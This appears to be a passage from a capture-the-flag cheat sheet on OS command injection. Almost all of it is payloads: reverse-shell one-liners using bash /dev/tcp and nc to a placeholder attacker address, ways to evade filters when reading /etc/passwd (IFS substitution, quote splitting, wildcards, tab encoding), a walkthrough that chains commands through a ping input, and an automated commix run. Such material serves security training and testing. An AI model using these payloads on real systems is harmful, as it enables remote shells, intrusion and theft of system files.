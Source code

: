 ```bash
# List files
; ls -la
; dir (Windows)
; find / -name flag.txt

# Reverse shell
; bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
; nc YOUR_IP 4444 -e /bin/bash
```

**Bypass Spaces**:
```bash
# No spaces needed
cat</etc/passwd
{cat,/etc/passwd}
cat$IFS/etc/passwd
cat${IFS}/etc/passwd
cat$IFS$9/etc/passwd

# Tab character
cat%09/etc/passwd
```

**Bypass Blacklists**:
```bash
# Concatenation
c'a't /etc/passwd
c"a"t /etc/passwd
ca\t /etc/passwd

# Variable expansion
$0 → cat /etc/passwd

# Wildcards
/???/c?t /etc/passwd
/bin/n? -e /bin/sh YOUR_IP 4444
```

**Use Case Example**:
```
Challenge: Ping functionality (user input → ping command)
Input: 127.0.0.1

Steps:
1. Test injection: 127.0.0.1; ls
2. If works, read files: 127.0.0.1; cat flag.txt
3. If flag not there: 127.0.0.1; find / -name flag.txt 2>/dev/null
4. Read flag: 127.0.0.1; cat /path/to/flag.txt
```

**Tool**:
```bash
# Commix (Automated Command Injection)
commix -u "http://target.com/ping?ip=127.0.0.1"
```

